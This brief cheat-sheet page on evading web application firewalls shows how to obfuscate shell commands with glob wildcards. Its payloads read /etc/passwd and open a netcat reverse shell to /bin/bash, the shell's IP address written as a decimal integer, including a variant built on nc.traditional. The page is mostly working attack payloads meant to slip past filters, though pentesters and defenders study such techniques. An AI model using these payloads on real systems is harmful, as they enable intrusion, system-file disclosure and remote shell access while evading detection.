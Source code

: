 # Evading WAF

Instead executing

`ls`

command, you can use the following syntax:

`/???/?s`

Standard:`/bin/cat /etc/passwd`  
Evasion:`/???/??t /???/??ss??`

\(usually`nc -e /bin/bash 127.0.0.1 1337`\), you can do it with a syntax like:

`/???/n? -e /???/b??h 2130706433 1337`

If use`nc.traditional`instead of`nc`that doesn’t have the`-e`parameter in order to execute`/bin/bash`after connect. The payload become something like this:

```text
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

#### References <a id="references"></a>

[https://medium.com/secjuice/waf-evasion-techniques-718026d693d8](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

